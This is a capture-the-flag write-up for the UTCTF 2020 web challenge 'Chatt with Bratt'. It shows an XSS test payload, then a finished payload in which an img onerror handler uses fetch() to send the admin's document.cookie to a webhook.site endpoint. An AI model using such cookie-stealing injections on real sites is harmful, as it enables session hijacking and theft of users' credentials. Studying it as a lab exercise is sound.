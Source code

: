 ```yaml
---
ctf: utctf
year: 2020
tags:
  - web
  - xxs
---
```


# UTCTF 2020 - Chatt with Bratt

For this challenge we were faced with a chat room with Brad Pid himself!
There was a warning though, we could not be rude to Brad because we admins would check the chats.

With this in mind, we start by trying a simple [XSS injection](https://owasp.org/www-community/attacks/xss/).

```html
<body onload=alert('test1')>
```

Hitting send caused the alert to trigger!
So now lets make it a bit more complex, we need some endpoint to make requests to.
I used [Webhook.site](https://webhook.site), it gives me a URL to make requests to and logs everything.

Before getting into the script, we need to decide what to steal.
In our case, when looking at the cookies there is one that stands out, the `secret`.

We'll steal them!

My final script looked like:

```html
<img
    src="http://url.to.file.which/not.exist"
    onerror="fetch(
        'https://webhook.site/#!/81f7d094-c908-465d-a571-ad47582fd6c6', {
            method:'POST',
            body: JSON.stringify({data:document.cookie})
        }
    );">
```

Which sent the flag to the given endpoint.